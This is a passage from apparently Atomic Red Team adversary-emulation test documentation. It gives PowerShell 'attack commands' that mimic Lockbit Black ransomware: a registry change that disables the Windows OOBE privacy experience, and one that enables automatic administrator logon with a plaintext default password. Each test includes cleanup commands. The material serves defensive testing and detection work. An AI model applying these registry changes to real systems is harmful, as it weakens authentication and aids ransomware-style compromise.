 
**auto_generated_guid:** d8c57eaa-497a-4a08-961e-bd5efd7c9374






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
New-ItemProperty "HKCU:\Software\Policies\Microsoft\Windows\OOBE" -Name DisablePrivacyExperience -PropertyType DWord -Value 1 -Force
```

#### Cleanup Commands:
```powershell
Remove-ItemProperty "HKCU:\Software\Policies\Microsoft\Windows\OOBE" -Name DisablePrivacyExperience -Force -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #35 - Lockbit Black - Use Registry Editor to turn on automatic logon -Powershell
Lockbit Black - Use Registry Editor to turn on automatic logon

**Supported Platforms:** Windows


**auto_generated_guid:** 5e27f36d-5132-4537-b43b-413b0d5eec9a






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
New-ItemProperty "HKLM:\Software\Policies\Microsoft\Windows NT\CurrentVersion\Winlogon" -Name AutoAdminLogon -PropertyType DWord -Value 1 -Force
New-ItemProperty "HKLM:\Software\Policies\Microsoft\Windows NT\CurrentVersion\Winlogon" -Name DefaultUserName -Value Administrator -Force
New-ItemProperty "HKLM:\Software\Policies\Microsoft\Windows NT\CurrentVersion\Winlogon" -Name DefaultDomainName -Value contoso.com -Force
New-ItemProperty "HKLM:\Software\Policies\Microsoft\Windows NT\CurrentVersion\Winlogon" -Name DefaultPassword  -Value password1 -Force
```

#### Cleanup Commands:
```powershell
Remove-ItemProperty "HKLM:\Software\Policies\Microsoft\Windows NT\CurrentVersion\Winlogon" -Name AutoAdminLogon -Force -ErrorAction Ignore
Remove-ItemProperty "HKLM:\Software\Policies\Microsoft\Windows NT\CurrentVersion\Winlogon" -Name DefaultUserName -Force -ErrorAction Ignore
Remove-ItemProperty "HKLM:\Software\Policies\Microsoft\Windows NT\CurrentVersion\Winlogon" -Name DefaultDomainName -Force -ErrorAction Ignore
Remove-ItemProperty "HKLM:\Software\Policies\Microsoft\Windows NT\CurrentVersion\Winlogon" -Name DefaultPassword -Force -ErrorAction Ignore
```
